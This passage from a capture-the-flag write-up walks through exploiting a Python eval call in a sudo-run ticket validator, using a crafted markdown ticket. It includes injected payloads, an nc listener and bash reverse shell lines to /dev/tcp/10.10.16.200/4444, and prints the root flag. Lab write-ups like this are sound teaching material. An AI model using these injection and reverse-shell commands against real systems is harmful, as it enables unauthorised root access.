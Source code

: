 So based on this we constructed a "valid" ticket:
```markdown
# Skytrain Inc
## Ticket to Some Location
__Ticket Code:__
**123+10
```

## Exploiting eval

The key line for the exploit is:
```python
if int(ticketCode) % 7 == 4:
    validationNumber = eval(x.replace("**", ""))
```

`eval` is very dangerous and should never be used when there is the possibility of user input.

To demonstrate this we changed the `eval` line to:
```markdown
**123+10 and print('hello')
```

This printed hello to the console:
```
Please enter the path to the ticket file.
test.md
Destination: Some Location
hello
```

First thing to do was try and create a reverse shell, so we set up an ncat listener (`nc -nlvp 4444`) and ammended the 4th line of the ticket:
```
**123+10 and __import__('os').system('/bin/bash -i >& /dev/tcp/10.10.16.200/4444 0>&')
```

Surprisingly this caused a shell error - `sh: 1: Syntax error: end of file unexpected`

We added a 1 to the end:
```
**123+10 and __import__('os').system('/bin/bash -i >& /dev/tcp/10.10.16.200/4444 0>&1')
```
Which gave us a slightly different error `sh: 1: Syntax error: Bad fd number`

This has something to do with eval running as shell (or python or something, to be honest I have no idea)

Luckily I found a simple way around this by creating a simple executable file - `exploit`:
```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.10.16.200/4444 0>&1
```
Running `chmod +x exploit`

Then simplifying the ticket to:
```markdown
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**123+10 and __import__('os').system('./exploit')
```

We ran the script `sudo python3.8 /opt/skytrain_inc/ticketValidator.py`
And a reverse shell appeared in our ncat window with a root shell, giving us our second flag:

```bash
cat /root/root.txt
# => cb165e1963534600b0e2eeae5e64c4c0
```